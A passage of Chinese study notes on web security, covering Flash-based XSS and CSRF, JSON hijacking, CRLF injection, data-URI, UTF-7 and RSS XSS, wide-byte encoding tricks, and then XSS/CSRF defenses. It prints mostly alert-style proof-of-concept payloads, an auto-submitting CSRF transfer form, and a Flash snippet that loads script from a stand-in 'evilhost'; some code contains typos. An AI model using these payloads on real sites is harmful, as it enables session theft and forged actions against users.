该类情况发生在Flash Cookie被保存下来并且被加载到Flash视频下的情况

(6)利用flash进行钓鱼

## 2.12 利用Flash 进行XSS攻击剖析

决定性因素：allowScriptAccess属性

该属性决定了flash是否能够执行脚本代码

![allowScriptAccess](E:\笔记软件\笔记\从零开始的web安全\allowScriptAccess.png)

当该属性没有被严格控制时，我们就可以利用flash来执行xss

```html
有如下脚本代码,保存为xss.swf
getURL('javascript:alert(123);');
嵌入HTML代码中
<object id="xxx" width="200" height="150">
	<param name="movie" value="movie.swf">
	<embed AllowScriptAccess="always" name="xxx" src="xss.swf" type="application/x-shockwave-flash" width="200" heigth="200">
	</embed>
</object>
直接访问即可弹窗
```

除了getURL方法，AS3.0中还能使用Externalinterface类来执行javascript脚本

![Externalinterface](E:\笔记软件\笔记\从零开始的web安全\Externalinterface.png)

(1)传统派

ExternalInterface.call("alert","xss")

//第一个参数为函数名，第二个参数是要传递的参数

(2)直接执行javascript语句

ExternalInterface.call("function(){alert('xss');}");

var xss:String = "function(){alert('xss');}";

ExternalInterface.call(xss);

(3)使用XML格式

```html
import flash.external.ExternalInterface;
var myJavaScript:XML =
<script>
    <![CDATA[
		function(){
			function xss(){
				alert("xss");
				};
			xss;
		}
	]]>
</script>
ExternalInterface.call(myJavaScript);
```

(4)调用外部javascript

```
var fun ="var x=document.creatElement(\"SCRIPT\")";x.src=\"http://evilhost/xss.js\";
x.defer=true;document.getElementsByTagName(\"HEAD\")[0].appendChild(x);";
flash.external.ExternalInterface.call("eval",fun);
```

## 2.13 利用Flash进行csrf

allowNetWorking设置不当会导致csrf

![allowNetWorking](E:\笔记软件\笔记\从零开始的web安全\allowNetWorking.png)

要使用flash进行csrf该属性必须设置all或者internal

## 2.14 深入XSS原理

### 2.14.1 csrf简析

**原理剖析**

1.编写web应用程序存在漏洞导致被恶意利用

2.web浏览器对cookie和http身份验证等会话信息的处理存在一定缺陷

```html
假设存在如下表单
<form action="transfer.php" meyhod="POST">
    账号:<input type="text" name="tobankid"/></br>
    密码:<input type="text" name="money"/></br>
<input type="submit" value="提交" />
</form>
```

用户输入账号和金额就能转账，攻击者构造特殊的url并诱导其点击，由于用户在本地已经保留cookie,用户会直接完成转账

```html
改用post方式发送
<form id="test" method="post" action="url">
<input name="tobankid" value="99">
<input name="money" value="1000">
<input type="submit" value="提交" />
</form>
<script>
test.submit();
</script>
```

![csrfstyle](E:\笔记软件\笔记\从零开始的web安全\csrfstyle.png)

iGaming CMS中存在csrf通过post方式添加管理员的操作；可通过抓取添加用户的数据包构造exp，当管理员cookie存在时访问恶意链接即可创建新管理员；

### 2.14.2 Hacking JSON

**json概述**

json 是存储和交换文本信息的一种语法，json是javascript的子集，格式为“名/值对”

```
"name":"xxxx"
值可以是以下数据类型：
数字（整数或浮点数）
字符串（在双引号中）
逻辑值（true或者是false）
数组（在方括号中）
对象（在花括号中）
```

```json
//对象在花括号中书写
var myJSon ={
	"firstname" : "xxx"
	"lastname"	: "xxx"
doucument.write(myJSon.firstname); //输出xxx
doucument.write(myjson.lastname); //输出xxx
}
//数组在方括号中书写，数组中可有多个对象
var user =[
{"firstname":"xxx","lastname":"xxx"}
{"firstname":"xxx","lastname":"xxx"}
{"firstname":"xxx","lastname":"xxx"}
]
//访问jascript对象数组中的第一项
user[0].lastname;
//xxx
```

**json应用**

```html
假设一个test.json文件内容
var test={"name":"xss"}
只用在标签中引入该文件
<script  src="test.json"></script>
<script>
alert(test.name);
alert(test.length);
</script>
浏览器可通过XMLHttpRequest获取json文本的数据，然后通过eval转换为有用的数据结构
httpRequest =getHttpRequest()//创建对象
//get test.json
var test= eval(httpRequest.responseText)
alert(test.name);
```

**json注入**

```
假设用户能修改用户信息，伪造攻击脚本
name:<img src=javascript:alert(xss)>
服务器有json格式
var user={"name":"$name"}
当用户打开恶意地址
var user={"name":"<img src=javascript:alert(xss)>"}
```

通过ajax技术处理json数据的方式称为”回调法“；json数据文件加载完后都会调用一个特别的函数，并以json数据作为参数；

某些服务能让用户指定调用函数的名字；用户可以通过url改变函数名；

例如要访问id为10的profile,只需发送

```
http://xxxx.com/Getprofile.html?callback=profileCallback&id=10
```

**json hijacking**

该漏洞允许未经授权的攻击者从一个易受攻击的应用程序中读取数据；

通过该漏洞，攻击者可以绕过web浏览器中使用的同源策略；窃取数据；

流程：用户在保存信任站点的cookie访问恶意站点，浏览器向信任站点发出请求，信任站点识别cookie返回json数据到恶意站点；

###  2.14.3 HTTP Response Splitting

HTTP响应拆分也被称为crlf注射攻击，用户能随意添加额外的http报头信息到http数据包中，然后通过自定义http头创造任意的内容返回用户浏览器中；

**HTTP Header**

随便抓个包来看一下；

```
请求包
GET / HTTP/1.1
Host: uu2fu3o.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

```
响应包
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 05 Apr 2023 12:55:47 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Content-Length: 29383
```

**CRLF injection原理**

已知httpheader每一行由\r\n或者"CR"(回车) , "LF"(换行)分割,当用户提交包含"\r\n"的数据时，如果没有进行过滤而这届返回给http header，攻击者就能设置任意的http头，或者直接修改http response的内容；

```
假设有如下代码
<%
nameValueCollection request =Request.QueryString;
Response.Cookies["username"].Value = request["text"];
%>
该代码通过请求test来设置cookie值；
正常情况下访问http://xxx.com/demo.aspx?text=xxx
响应头应为
Set-Cookie: username=xxx
假设没有进行过滤，传递?text=xxx%0D%0ASet-Cookie%3A%20Hackercookie=hacker
就会得到
Set-Cookie: username=xxx
Set-Cookie: Hackercookie=hacker
```

不仅是添加cookie,还能够插入html/javascript代码并执行；

### 2.14.4 MHTML协议安全

[参考](https://github.com/80vul/webzine/blob/master/webzine_0x05/0x05%20IE%25CF%25C2MHTML%D0%AD%25D2%25E9%25B4%25F8%25C0%25B4%25B5%C4%BF%25E7%25D3%25F2%CE%A3%25BA%25A6.html)

### 2.14.5 利用Data URIs进行xss

URL是URI常用协议的一个子集，URI用于指定一个协议用来接收信息，如果额外信息是一个地址，那么URI就等同于URL；

Data uri则是由RFC 2397定义的一种把小文件嵌入文档的方案

```
格式：data:[<mime type>][;charset=<charset>][;base64],<encoded data>
```

![data uri](E:\笔记软件\笔记\从零开始的web安全\data uri.png)

Data可以让用户把文件嵌入其他文件中

**Data uris xss**

data uri提供了一个在HTML或者CSS文件中嵌入图片的方法，但没有严格指定类型，我们可以在base64后嵌入任何类型的文件，甚至是html代码；

```html
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">test<a>
    base64编码内容为<script>alert("xss")</script>
可使用object标签，不需要用户点击即可弹窗
    <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4="></object>
```

### 2.14.6 UTF-7 BOM XSS

![utf-7](E:\笔记软件\笔记\从零开始的web安全\utf-7.png)

如果字符集编码没有在HTTP的content-type头或html中的<meta>标签中定义，某些浏览器会自动猜测字符集编码；

```
+ADw-script+AD4-alert(document.cookie)+ADw-/script+AD4-
上述为<script>alert(document.cookie)</script>转换为utf-7编码；
向浏览器发送一个get请求
http://server/+ADw-script+AD4-alert(document.cookie)+ADw-/script+AD4-
//某些浏览器(
```

### 2.14.7 浏览器插件安全

**flash后门**

```
 .\mtasc.exe -swf test.swf -main -header 1:1:1 test.as
```

```
class test {
function test(){
}
static function main(mc){
getURL("javascript:alert('xss')");
}
}
编写如下as文件，再使用mtasc编译，用户可以把swf文件上传到任意网站并且使用<object><embed>对其进行调用来执行弹窗
```

![flash](E:\笔记软件\笔记\从零开始的web安全\flash.png)

**来自pdf的xss**

pdf文档之所以不安全，是因为其本身支持javascript脚本语言的特性；

可通过较早版本的adobe reader进行xss代码的注入；这里不再多提

![pdfxss](E:\笔记软件\笔记\从零开始的web安全\pdfxss.png)

该漏洞只影响7.0及以下版本；

**quick time xss**

该漏洞利用QuickTime播放器的不安全特色Text Tracks

### 2.14.8 特殊XSS应用场景

**基于cookie的xss**

该漏洞由于对cookie中的参数过滤不言，导致攻击者能够在cookie中插入跨站代码；

**来自RSS的XSS**

如何执行此类攻击，只需要修改XML文件中的RSS数据，在一些字段中加入恶意代码即可;

```xml
<?xml version="1.0" encoding="UTF-8"?>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom" xmlns:cc="http://web.resource.org/cc/" xmlns:itunes="http://www.itunes.com/dtds/podcast-1.0.dtd" xmlns:media="http://search.yahoo.com/mrss/" xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#">
  <channel>
    <atom:link href="http://dataskeptic.libsyn.com/rss" rel="self" type="application/rss+xml"/>
    <title>Data Skeptic</title>
    <pubDate>Fri, 15 Jan 2016 15:00:00 +0000</pubDate>
    <lastBuildDate>Fri, 15 Jan 2016 15:08:58 +0000</lastBuildDate>
    <generator>Libsyn WebEngine 2.0</generator>
    <link>http://dataskeptic.com</link>
    <language>en</language>
    <copyright><![CDATA[Creative Commons Attribution License 3.0]]></copyright>
    <docs>http://dataskeptic.com</docs>
    <managingEditor>kylepolich@gmail.com (kylepolich@gmail.com)</managingEditor>
    <itunes:summary><![CDATA[The Data Skeptic Podcast features interviews and discussion of topics related to data science, statistics, machine learning, artificial intelligence and the like, all from the perspective of applying critical thinking and the scientific method to evaluate the veracity of claims and efficacy of approaches.]]></itunes:summary>
    <image>
      <url>http://static.libsyn.com/p/assets/2/9/3/8/2938570bb173ccbc/DataSkeptic-Podcast-1A.jpg</url>
      <title>Data Skeptic</title>
      <link><![CDATA[http://dataskeptic.com]]></link>
    </image>
    <itunes:author>Kyle Polich</itunes:author>
    <itunes:keywords>datamining,datascience,machinelearning,science,skepticism,statistics</itunes:keywords>
  <itunes:category text="Science &amp; Medicine"/>
  <itunes:category text="Technology"/>
  <itunes:category text="Education">
    <itunes:category text="Higher Education"/>
  </itunes:category>
    <itunes:image href="http://static.libsyn.com/p/assets/2/9/3/8/2938570bb173ccbc/DataSkeptic-Podcast-1A.jpg" />
    <itunes:explicit>clean</itunes:explicit>
    <itunes:owner>
      <itunes:name><![CDATA[Kyle Polich]]></itunes:name>
      <itunes:email>kylepolich@gmail.com</itunes:email>
    </itunes:owner>
    <description><![CDATA[Data Skeptic alternates between short mini episodes with the host explaining concepts from data science to his non-data scientist wife, and longer interviews featuring practitioners and experts on interesting topics related to data, all through the eye of scientific skepticism.]]></description>
    <itunes:subtitle><![CDATA[Applying critical thinking to Data Science]]></itunes:subtitle>
      <item>
      <title><![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]></title>
      <pubDate>Fri, 15 Jan 2016 15:00:00 +0000</pubDate>
      <guid isPermaLink="false"><![CDATA[18102dbc685d36dea2556055eea4ed76]]></guid>
      <link><![CDATA[javascript:alert(document.domain)]]></link>
      <itunes:image href="http://static.libsyn.com/p/assets/2/9/3/8/2938570bb173ccbc/DataSkeptic-Podcast-1A.jpg" />
      <description><![CDATA[<script>alert(2)</script>]]></description>
      <enclosure length="45125402" type="audio/mpeg" url="http://traffic.libsyn.com/dataskeptic/pseudo-profound-episode.mp3" />
      <itunes:duration>37:37</itunes:duration>
      <itunes:explicit>no</itunes:explicit>
      <itunes:keywords />
      <itunes:subtitle><![CDATA[A recent paper in the journal of Judgment and Decision Making titled On the reception and detection of pseudo-profound bullshit explores empirical questions around a reader's ability to detect statements which may sound profound but are actually a...]]></itunes:subtitle>
          </item>
  </channel>
</rss>
```

这是一份已经注入javascript代码的xml文件，只需要把它上传到服务器，然后使用rss阅读器订阅此地址便可触发xss

[文件源](https://gist.github.com/fyoorer/6ea27a449ae6249e519a)

**应用软件中的xss**

 危害主要来自于，应用程序对用户的输入没有进行严格的过滤，例如邮箱等软件导致能够执行XSS；

### 2.14.9 浏览器差异

**跨浏览器的不兼容性**

造成不兼容现象的主要原因是DOM和CSS

**IE嗅探机制与XSS**

 ie浏览器会对页面通过content-type: text/html进行嗅探，如果是html页面就会正常加载，firefox 和chorme就不会，因此我们可以利用该特性，在txt文本中保存含有XSS的html代码,使用IE浏览器就能正常弹窗

**浏览器差异造成的XSS**

本质在于利用浏览器的特性来设置XSSpayload

例如chrome 会动态修正一些节点

```
</script x\> --> </script>
```

### 2.14.10 字符集编码隐患

双字节编码漏洞，主要利用php对'的转义，当php设置了GBK等宽字节字符集的时候，高8位合并编码为汉字；

```
假设有如下代码
<?php
header("Content-Type:text/html;Charset=gb2312");
$a=$_GET["a"];
>
<script>x='<?php echo $a;?>';y='[user_input]';
</script>
```

如果php设置了CBK，我们就可以利用转义来进行XSS；

```
假设我们传入
?a=xss';aler(0)//
返回内容为
<script>x='xss\';alert(0)//;?>'.....
显然这里被转义，无法执行，换种传入方式
?a=xss%5d';alert(0)//
返回如下
<script>x='xss诚';alert(0)//';y='[user_input]';
能够执行弹窗
```

## 2.15 防御XSS

### 2.15.1 XSS Filter

**输入过滤**

(1)输入验证

设定长度

设定只允许输入的字符

利用javascript进行校验输入是否正确

输入是否符合格式要求

(2)数据消毒

服务端处理，拒绝敏感字符如< > ' "  & # javascript expression等

**输出编码**

大多数应用存在将用户输入直接输出在页面上的习惯，这样很容易造成XSS

如果要输出在页面上，最好是对敏感字符使用htmlencode进行编码

### 2.15.2 黑名单和白名单

![blackwhitelist](E:\笔记软件\笔记\从零开始的web安全\blackwhitelist.png)

如果仅仅是使用黑名单，攻击者可以通过之前讲到的方式转码，混淆进行攻击，所以还需要白名单，单从程度上来讲，对信息过滤白名单会优于黑名单；

### 2.15.3 字符转码

对关键字符，标签进行实体编码，特别需要注意的是url属性与javascript事件；

### 2.15.4 防御dom-based-xss

由于dom并不经过服务端，所以一切基于服务端的过滤都是无效的；

要防御dom-xss,要注意以下几点

(1)避免客户端的文档重写，重定向，避免使用客户端数据，这些操作尽量在服务端动态实现

(2)分析和强化客户端javascript代码，尤其是一些受到用户影响的dom对象；

```
从URL获取
document.URL
document.URLUnencoded
document.location(.pathname|.href|.search|.hash)
window.location(.pathname|.href|.search|.hash)
Referre属性
document.referrer
windowname属性
window.name
其他属性 
document.cookie
HTML5 postMessage
localStorage/globalStorage
XMLHTTPRequest response
Input.value
```

### 2.15.5 其他防御方式

**Anti-xss**

一个专门防范XSS的库；

**httponly cookie**

支持Cookie的浏览器最好是设置httponly cookie

**Noscript**

一款免费的浏览器插件，默认进禁止所有脚本，可自定义能够运行的脚本；

**WAF**

## 2.16 防御CSRF

使用post代替get;

检验http referer

验证码

使用token

## 参考资料

《XSS跨站脚本攻击剖析与防御》

https://www.w3school.com.cn/js/js_htmldom.asp

https://gist.github.com/fyoorer/6ea27a449ae6249e519a

## 后记

写的很烂，内容不丰富，有问题请指出
